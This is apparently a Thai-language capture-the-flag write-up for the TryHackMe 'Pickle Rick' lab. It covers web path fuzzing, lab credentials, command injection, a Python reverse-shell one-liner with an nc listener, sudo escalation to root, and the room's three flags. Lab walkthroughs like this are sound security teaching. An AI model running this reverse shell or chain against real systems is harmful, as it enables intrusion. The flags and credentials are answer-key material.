


source : [Pickle Rick](https://tryhackme.com/room/picklerick)<br>
title :  Web-application <br>
IP : 10.10.245.77 <br>
## Step 1 discovery Hidden Path with FFUF
เมื่อลองเข้าไปที่ `http://10.10.245.77` ก็จะพบกับหน้า index

ลองใช้ `FFUF` ค้นหา `paths` อื่นๆที่ถูกซ่อนไว้ดู
```shell
┌──(root㉿kali)-[~]
└─# ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/php_wordlist.txt -u http://10.10.245.77/FUZZ mc 200,301,302

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.245.77/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/php_wordlist.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

login.php               [Status: 200, Size: 882, Words: 89, Lines: 26, Duration: 329ms]
portal.php              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 304ms]
:: Progress: [5172/5172] :: Job [1/1] :: 47 req/sec :: Duration: [0:00:51] :: Errors: 0 ::

```
จากผลลัพธ์ที่ได้ก็จะเจอ `login.php and portal.php` ให้ชองเข้าไปดูที่ `login.php`

ตอนนี้เรายังไม่มีรหัสผ่านและชื่อผู้ใช้ ให้ลองหาที่ `robots.txt` และ `inspector` ก็จะได้ `username and password ` 
> หมายเหตุ : username ดูจากหน้า index.php

username : `R1ckRul3s` <br>
password : `Wubbalubbadubdub`
## Step 2 access to server with reverse shell

หลังจากเข้ามาแล้วเราก็จะเจอกับหน้า `Command Panel` ที่เราสามารถใส่คำสั่งลงไปได้ เมื่อเราลอง lists ไฟล์ออกมาดูก็จะพบกับไฟล์ `Sup3rS3cretPickl3Ingred.txt` แต่เมื่อเราลองใช้คำสั่ง `cat` เพื่ออ่านไฟล์ ปรากฎว่า ไม่มีคำสั่งนี้ให้เราใช้ ดังนั้น จึงลองอีกคำสั่งที่มีความคล้ายคลึงกัน ก็คือคำสั่ง `tac (cat แบบ reverse)` <br>
first flag : `mr. meeseek hair` <br>
ต่อไปเราต้องการที่จะทำการเข้าถึงเครื่องเป้าหมายผ่าน reverse shell โดยในช่องของ command panel ให้ใส่คำสั่งนี้ลองไป
```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<your ip>",<your port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
# plase remove <> before exploit
```
และในเครื่องของเราให้รันคำสั่ง
```shell
nc -lvnp <port>
```
>หมายเหตุ : รันคำสั่งในเครื่องตัวเองก่อนเพื่อรอรับค่าจาก target server

หลังจากนั้นเมื่อเข้าสู้เครื่องเป้าหมายได้แล้ว ให้รันคำสั่งต่อไปนี้เพื่อให้ง่ายต่อการค้นหาไฟล์
```python
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
## Step 3 Final Result
เมื่อเราเข้ามาได้แล้ว ให้เราทำการตรวจสอบสิทธิ์ของตนเอง
```shell
www-data@ip-10-10-245-77:/var/www/html$ whoami
www-data
www-data@ip-10-10-245-77:/var/www/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
ตอนนี้เราเป็นแค่ `www-data` ดังนั้นลองใช้ `sudo -l` เพื่อมองหาว่า เราสามารถใช้สิทธิ์สูงสุดกับอะไรได้บ้างโดยไม่ใช้รหัสผ่าน
```shell
www-data@ip-10-10-245-77:/var/www/html$ sudo -l
Matching Defaults entries for www-data on ip-10-10-245-77:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-245-77:
    (ALL) NOPASSWD: ALL

```
จะเห็นได้ว่า เราสามารถใช้ได้ทุกคำสั่งเลย ดังนั้นเรายกระดับสิทธิ์ตัวเองให้เป็น `root`
```shell
www-data@ip-10-10-245-77:/var/www/html$ sudo su
root@ip-10-10-245-77:/var/www/html# whoami
root
```
ตอนนี้ เราก็ได้สิทธิ์สูงสุดมาแล้ว เราจึงจะไปดูที่ `/home/rick` 
```shell
root@ip-10-10-245-77:/var/www/html# cd /home/rick
root@ip-10-10-245-77:/home/rick# ls
'second ingredients'
root@ip-10-10-245-77:/home/rick# tac 'second ingredients'
1 jerry tear
```
second flag : `1 jerry tear`
```shell
root@ip-10-10-245-77:/home/rick# cd /root
root@ip-10-10-245-77:~# ls
3rd.txt  snap
root@ip-10-10-245-77:~# tac 3rd.txt        
3rd ingredients: fleeb juice
```
final flag : `fleeb juice`
